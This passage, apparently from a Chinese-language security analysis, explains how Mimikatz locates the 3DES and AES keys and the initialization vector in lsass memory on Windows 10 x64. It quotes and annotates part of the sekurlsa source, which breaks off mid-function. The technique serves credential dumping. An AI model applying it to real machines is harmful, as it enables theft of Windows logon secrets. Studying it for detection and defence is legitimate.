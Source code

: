 以 Windows 10 x64 1903 系统为例，Mimikatz 扫描下图红色边框标出的特征码，以识别 `lea rdx, ?h3DesKey`、`lea rdx, ?hAesKey` 和 `lea rdx, ?InitializationVector` 指令。在 x86\_64 架构上，这些指令使用 `rip` 相对寻址来访问和使用全局变量，下图中的蓝色、绿色和黄色边框标出的字节序列，即为指令所保存的 `h3DesKey`、`hAesKey` 和 `InitializationVector` 相对于当前指令的偏移量（小端序）。

![image-20221218121056722](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-2f6c3590d9084e3d9f4b84820e9cc37d578f55d9.png)

分别取出这四个字节中保存的偏移量值，加到 `rip` 指向的地址上即可分别得到 `h3DesKey`、`hAesKey` 和 `InitializationVector` 的地址，如下图所示。可以看到 `h3DesKey` 和 `hAesKey` 都是 `BCRYPT_KEY_HANDLE` 结构体。

![image-20221218121205349](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-0d8a19557d651c9cc84af07d0cf03f50738f7fe7.png)

在 `kuhl_m_sekurlsa_nt6_acquireKeys()` 函数中，先通过与 `kuhl_m_sekurlsa_utils_search_generic()` 函数类似的逻辑获取 `InitializationVector` 的地址，然后调用两次 `kuhl_m_sekurlsa_nt6_acquireKey()` 函数定位 `h3DesKey` 和 `hAesKey` 的地址。

跟进 `kuhl_m_sekurlsa_nt6_acquireKey()` 函数：

- sekurlsa\\crypto\\kuhl\_m\_sekurlsa\_nt6.c

```c++
BOOL kuhl_m_sekurlsa_nt6_acquireKey(PKULL_M_MEMORY_ADDRESS aLsassMemory, PKUHL_M_SEKURLSA_OS_CONTEXT pOs, PKIWI_BCRYPT_GEN_KEY pGenKey, LONG armOffset) // TODO:ARM64
{
    BOOL status = FALSE;
    KULL_M_MEMORY_ADDRESS aLocalMemory = {&amp;aLsassMemory-&gt;address, &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KIWI_BCRYPT_HANDLE_KEY hKey; PKIWI_HARD_KEY pHardKey;
    PVOID buffer; SIZE_T taille; LONG offset;
    // 根据 BuildNumber 中的系统版本，在几种 KIWI_BCRYPT_KEY 结构中选择适合的版本
    if(pOs-&gt;BuildNumber &lt; KULL_M_WIN_MIN_BUILD_8)
    {
        taille = sizeof(KIWI_BCRYPT_KEY);
        offset = FIELD_OFFSET(KIWI_BCRYPT_KEY, hardkey);
    }
    else if(pOs-&gt;BuildNumber &lt; KULL_M_WIN_MIN_BUILD_BLUE)
    {
        taille = sizeof(KIWI_BCRYPT_KEY8);
        offset = FIELD_OFFSET(KIWI_BCRYPT_KEY8, hardkey);
    }
    else
    {
        // taille 为 KIWI_BCRYPT_KEY81 结构体的大小
        taille = sizeof(KIWI_BCRYPT_KEY81);
        // offset 为 hardkey 属性在 KIWI_BCRYPT_KEY81 结构体中的偏移
        offset = FIELD_OFFSET(KIWI_BCRYPT_KEY81, hardkey);
    }

    if(buffer = LocalAlloc(LPTR, taille))
    {
    #if defined(_M_ARM64)
        // ......
    #elif defined(_M_X64)
        LONG offset64;
        aLocalMemory.address = &amp;offset64;
        // 获取保存 h3DesKey 偏移量的那四个字节的值，并加到 rip 指令的地址上，最终得到了 h3DesKey 变量的地址
        if(kull_m_memory_copy(&amp;aLocalMemory, aLsassMemory, sizeof(LONG)))
        {
            aLsassMemory-&gt;address = (PBYTE) aLsassMemory-&gt;address + sizeof(LONG) + offset64;
            aLocalMemory.address = &amp;aLsassMemory-&gt;address;
    #elif defined(_M_IX86)
        // ......
    #endif
            // 将 BCRYPT_KEY_HANDLE 结构的 h3DesKey 变量复制到 hKey 指向的内存中
            if(kull_m_memory_copy(&amp;aLocalMemory, aLsassMemory, sizeof(PVOID)))
            {
                aLocalMemory.address = &amp;hKey;
```